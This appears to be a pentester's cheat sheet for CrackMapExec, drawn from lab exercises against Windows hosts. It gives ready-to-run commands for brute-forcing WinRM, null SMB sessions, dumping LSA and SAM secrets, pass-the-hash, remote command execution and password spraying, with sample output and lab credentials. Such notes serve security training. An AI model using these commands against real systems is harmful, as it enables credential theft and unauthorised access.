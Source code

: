 # CrackMapExec

### install

```
sudo apt install snapd
sudo snap install crackmapexec
```

### CrackMapExec Protocol-Specific Help

```shell-session
crackmapexec smb -h
```

### CrackMapExec Usage

```shell-session
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```shell-session
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

```shell-session
WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

### Support Protocols

* [winrm](app://obsidian.md/WinRM%20Attacks)
* [ftp](app://obsidian.md/FTP%20Attack)
* ldap
* [smb](app://obsidian.md/SMB%20Attack)
* [mssql](app://obsidian.md/MSSQL%20Attacks)
* rdp
* [ssh](app://obsidian.md/SSH%20Attack)

## SMB

```
crackmapexec smb 10.10.11.174
```

**Null Authentication**

```
crackmapexec smb 10.10.11.174 --shares -u "" -p ""
```

**Anonymous Authentication**

* put any value in the user field

```
crackmapexec smb 10.10.11.174 --shares -u "fwewfawef" -p ""
```

**Login with username and password**

```
crackmapexec smb 10.10.11.174 --shares -d support -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

## Remote Dumping & LSA Secrets Considerations

* [CrackMapExec](app://obsidian.md/CrackMapExec)

```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

**Pass the Hash with CrackMapExec**

```shell-session
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

**CrackMapExec - Command Execution**

```shell-session
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

## winrm

```
crackmapexec winrm 10.129.202.136 -u username.list -p password.list
```



## Others

### Enumerating the Password Policy - from Linux - Credentialed

```shell-session
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```

### SMB NULL Session to Pull User List

```shell-session
crackmapexec smb 172.16.5.5 --users
```

```shell-session
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] Enumerated domain user(s)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\administrator                  badpwdcount: 0 baddpwdtime: 2022-01-10 13:23:09.463228
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\guest                          badpwdcount: 0 baddpwdtime: 1600-12-31 19:03:58
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\lab_adm
```

### Password Spraying Active Directory

```shell-session
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

#### Local Admin Spraying with CrackMapExec

* The `--local-auth` flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.&#x20;
  * `Make sure this flag is set so we don't potentially lock out the built-in administrator for the domain`

```shell-session
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
